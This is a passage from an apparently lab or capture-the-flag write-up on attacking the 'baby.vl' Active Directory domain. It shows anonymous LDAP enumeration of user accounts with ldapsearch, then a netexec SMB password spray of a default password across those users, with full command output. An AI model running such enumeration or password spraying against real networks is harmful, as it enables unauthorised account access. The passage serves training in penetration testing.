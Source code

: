 ```
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
Tried RDP with the potential obtained password, it didn€™t work for €œteresa.bell@baby.vl€. I decided to check if the same password might be used for other users on the system. To find more users, I enumerated their **email addresses** as follows:
```
ldapsearch -x -H ldap://10.10.75.4 -D '' -w '' -b "DC=baby,DC=vl" | grep "userPrincipalName"
userPrincipalName: Jacqueline.Barnett@baby.vl
userPrincipalName: Ashley.Webb@baby.vl
userPrincipalName: Hugh.George@baby.vl
userPrincipalName: Leonard.Dyer@baby.vl
userPrincipalName: Connor.Wilkinson@baby.vl
userPrincipalName: Joseph.Hughes@baby.vl
userPrincipalName: Kerry.Wilson@baby.vl
userPrincipalName: Teresa.Bell@baby.vl
# Caroline Robinson, it, baby.vl
dn: CN=Caroline Robinson,OU=it,DC=baby,DC=vl
```
One interesting user stood out from the list: **Caroline Robinson**, who doesn€™t have a **userPrincipalName** associated.
Since I now had a username and password, I decided to validate the credentials using "netexec"

```
netexec smb 10.10.75.4 -u emails.txt -p 'BabyStart123!'                          
SMB         10.10.75.4      445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Ashley.Webb:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Hugh.George:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Leonard.Dyer:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Joseph.Hughes:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\it:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.75.4      445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE 
```
